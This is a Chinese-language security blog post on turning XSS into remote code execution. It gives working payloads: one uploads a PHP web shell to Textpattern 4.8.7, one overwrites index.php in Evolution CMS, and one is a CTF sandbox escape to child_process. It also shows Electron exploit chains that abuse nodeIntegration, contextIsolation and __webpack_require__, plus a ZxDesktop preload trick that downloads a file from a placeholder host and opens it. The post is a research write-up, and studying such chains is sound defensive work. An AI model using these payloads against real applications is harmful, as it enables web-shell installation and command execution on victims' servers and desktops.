




浅谈 xss2rce 的一些实现

- - -

## 浅谈 xss2rce 的一些实现

### Background

翻了翻我以前挖的漏洞和一些 ctf 题目，发现都不约而同出了这么一个思路，xss2rce，我觉得这个点比较有意思的，总结了几个漏洞分析把它记录了下来

### xss2rce 前世

在很多情况，在可以执行 js 代码的前提下，我们可以通过编写 html+js，使用 xmlhttprequest 等发包方法来实现上传文件，或者反弹命令等进行 rce

在 Textpattern 4.8.7 中，

```plain
/textpattern/index.php?Body=A+test+article.+&app_mode=async&view=preview
```

Body 字段没有进行过滤，导致我们可以进行 xss

本身 Textpattern 是一个文本管理的系统，所以管理员是可以进行一些诸如文件上传之类的操作

```plain
<script>
function uploadWebShell(token) {
    fetch('/textpattern/index.php',{
        method: 'POST',
        headers: {
            'Content-Length': '667', 
            'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryozIzNEFsufRB6LpY', 
            'Connection': 'close'
        },
        credentials: 'include',
        body: '------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="theplugin"; filename="csrfshell.php"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="install_new"\x0d\x0a\x0d\x0aUpload\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="event"\x0d\x0a\x0d\x0aplugin\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="step"\x0d\x0a\x0d\x0aplugin_upload\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="_txp_token"\x0d\x0a\x0d\x0a'+token+'\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY--\x0d\x0a'
    });
}
uploadWebShell(token);
</script>
```

我们构造如上数据包发送给管理员就会上传一个 shell，这个漏洞有一个不一样的点在于需要一个 token 作验证，但不幸的是 token 是静态的，我们可以通过访问首页记录 token

同样的在 Evolution CMS 中也曾出现过这样的问题，不一样的只是他功能点不能上传文件但是可以修改文件

```plain
$.get('/manager/?a=1', function(d) {
  let p = $(d).contents().find('input[name="path"]').val();
  let postData = {
    a: 1,
    mode: 'save',
    path: p + '/index.php',
    content: '<?php phpinfo(); ?>'
  };

  $.ajax({
    url: '/manager/index.php',
    type: 'POST',
    contentType: 'application/x-www-form-urlencoded',
    data: postData
  });
});
```

也是可以很容易就进行 rce

当然在 ctf 上也很愿意用这种作为考点，比如华为杯研究赛国赛中这道 startschool

```plain
const express = require('express');
const path = require('path');
var fs = require('fs');
const bodyParser = require('body-parser');
var bot = require('./bot')


const app = express();

app.engine('html',require('express-art-template'))

app.use(express.static('public'));
app.use(bodyParser.json())
app.use(bodyParser.urlencoded({extended: false}))


data_path = "data.html";

//主页
app.get('/', function(req, res) {
    res.sendFile(path.join(__dirname, 'public/index.html'));
});


app.post('/do', function(req, res) {
    fs.writeFile('data.html'," 姓名："+req.body.name+"<br\> 年龄："+req.body.age+"<br\> 专业："+req.body.subject+"<br\> 邮箱："+req.body.mail+"\n",function(error){
        console.log("wriet error")
    });
    bot.visit();
    res.send("<script>alert('提交成功');window.location.href = '/';</script>");
});


app.route('/view')
  .get(function(req, res) {
    res.sendFile(path.join(__dirname, data_path));
  })
  .post(function(req, res) {
    fs.writeFile('data.html'," 姓名："+req.body.name+"<br\> 年龄："+req.body.age+"<br\> 专业："+req.body.subject+"<br\> 邮箱："+req.body.mail+"\n",function(error){
        console.log("write error")
    });
    res.redirect('/view');
  });

app.listen(80, '0.0.0.0');
```

```plain
bot.js
const zombie = require("zombie")

exports.visit = async function () {
    const browser = new zombie ({
        waitDuration: 5*1000,
        localAddress: 0 
   })

    browser.setCookie({ name: 'admin', domain: '127.0.0.1', path:'/', httpOnly: 'true'})

    browser.visit("http://127.0.0.1/view",function() {
        console.log("Visited: ", "http://127.0.0.1/view")
})    
}
```

在 bot.js 里面里面使用了 zombie 这个库，并且通读代码，可以在 data.html 内容可控

```plain
<script>document.write(this.constructor.constructor("return(global.process.mainModule.constructor._load('child_process').execSync('ls / > data.html').toString())")());</script>
```

我们写一个 load child\_process 的链子即可

通过以上的几个案例不难看到这种在真实场景利用率可能会因为种种原因变得比较低

### xss2rce 今生

由于 electron 框架的提出，作为一个可以跨平台使用的桌面程序，而且以 js html 为主体，会被 chrom 渲染，大幅度的提高了他的危险性，比如经典的蚁剑 xss2rce，但因为这个洞可能大家已经看烂了，所以分析点其他的

CVE-2020–16608 是一个 markdown 编辑器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203021535-0f343682-c1f7-1.png)

因为没有对 xss 进行过滤，导致我们可以很容易的弹个框

```plain
<a onmouseover="alert(1)"
```

在阅读代码时可以看到

```plain
const { app, BrowserWindow } = require('electron')
function createWindow() {
    const win = new BrowserWindow({
        width: 800,
        height: 600,
        webPreferences: {
            nodeIntegration: true
        }
    })
    win.loadFile('index.html')
}
```

他的 nodeIntegration 设置为了 true，这个应该是最简单的情况了，他的沙箱是关闭的，我们可以很容易进行 rce 像这样

```plain

```

在我进行挖掘某个内部通讯软件的时候，还出现了一个可以通过原型链来利用`__webpack__require`来进行 rce 的方式

```plain
window.__webpack_require__("module")._load("child_process").execFile("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
```

而在 NI 关闭的情况下似乎只能通过一些 V8 的洞来进行操作，但是实际上还有一个配置项值得关注

contextIsolation 允许开发人员在专用的 JavaScript 上下文中运行预加载脚本和 Electron API 中的代码。它在 Electron 的本地 JavaScript 代码和网络应用程序的 JavaScript 代码之间引入了分离的上下文，因此执行应用程序的 JavaScript 代码不会影响本地代码。

如果禁用了隔离，无论 "nodeIntegration "选项如何，Electron 都允许网络应用程序的 JavaScript 代码使用 Node.js 功能

```plain
<script>
const origEndWith = String.prototype.endsWith;
String.prototype.endsWith = function(...args) {
if (args && args[0] === "/electron") {
String.prototype.endsWith = origEndWith;
return true;
}
return origEndWith.apply(this, args);
}

const origCallMethod = Function.prototype.call;
Function.prototype.call = function(...args){
if(args[3] && args[3].name === "__webpack_require__") {
window.__webpack_require__ = args[3];
Function.prototype.call = origCallMethod;
}
return origCallMethod.apply(this, args);
}
console.log(window.__webpack_require__);
</script>
```

我们可以通过上文提到的`__webpack_require__`取到来进行 ice

不仅如此。然而在某次学长给我看 key 师傅的一个洞时，也看到一个组合拳逻辑的案例

实际上在文件里有一个 preload.js 他的意思是一个预加载文件，会在页面创建前执行，而里面有一个创建了 windows 对象

ZxDesktop

可以用他来进行引入 File 包执行命令，这样是可以在 console 下调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203021605-212dcc40-c1f7-1.png)

在发现 File 模块之后关注下载可以看到

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203021610-2437b3e2-c1f7-1.png)

他是有保存模块，那我们其实就可以实现文件下载了，但是下载的地址很多时候也会被用户进行更改

而在 system 模块里

[](https://xzfile.aliyuncs.com/media/upload/picture/20240203021617-2889eac8-c1f7-1.png)

有 dbPath、userDataPath 这两个属性，都是指向数据目录，拥有这些我们就可以下载地址 拼接文件路径，大致思路如下

```plain
var a = ZxDesktop; 
var b = a.require("File");
b.save({"url": "http://xxx/test.txt","name": "test.txt","path": "","chunkSize": "","size":
"","fileData": ""})
b.open(a.require("System").userDataPath + "/test.txt");
```

这样其实就可以达成更多危险的操作了

### Summary

在现代 electron 应用程度广泛的今天，我们可以更多关注本身和业务逻辑层，说不定会有不一样的收获
